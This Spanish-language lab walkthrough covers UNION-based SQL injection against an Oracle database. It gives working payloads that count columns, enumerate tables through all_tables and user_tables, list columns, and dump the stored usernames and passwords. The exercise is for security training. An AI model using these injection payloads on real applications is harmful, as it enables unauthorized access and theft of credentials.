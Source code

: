 # Laboratorio: Ataque de inyección SQL, que enumera el contenido de la base de datos en Oracle

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de producto. Los resultados de la consulta se devuelven en la respuesta de la aplicación para que pueda utilizar un ataque UNION para recuperar datos de otras tablas.

La aplicación tiene una función de inicio de sesión y la base de datos contiene una tabla que contiene nombres de usuario y contraseñas. Debe determinar el nombre de esta tabla y las columnas que contiene, luego recuperar el contenido de la tabla para obtener el nombre de usuario y la contraseña de todos los usuarios.

Para resolver el laboratorio, inicie sesión como administrator usuario.


- Identificar el número de columnas y las que permiten mostrar texto en la respuesta, utilizando un payload simple como prueba.
- Listar todas las tablas disponibles usando la vista ‘all_tables‘, propia de Oracle.
- Localizar la tabla de usuarios, observando los resultados devueltos por la consulta inyectada.
- Consultar ‘all_tab_columns‘ para descubrir los nombres de las columnas de esa tabla.
- Obtener los valores de usuario y contraseña realizando una consulta directa sobre la tabla objetivo.


**Ejemplo**

Gifts' order by 2-- -

## Todas las tablas de oracle

' UNION SELECT table_name, null FROM all_tables -- 


### Nombres de las tablasd de Usuarios ORACLE

' UNION SELECT table_name, null FROM user_tables -- 

**Resultado**

- PRODUCTS
- USERS_PVOTTW

### Nombres de los campos de una tablas ORACLE

' union SELECT column_name,null FROM user_tab_columns WHERE table_name = 'USERS_PVOTTW' -- -

**Resultado**

- EMAIL
- PASSWORD_NSMTLG
- USERNAME_PPFZRD

### Listar el contenido de las columnas de una tabla


' union SELECT USERNAME_PPFZRD ,PASSWORD_NSMTLG FROM USERS_PVOTTW -- -
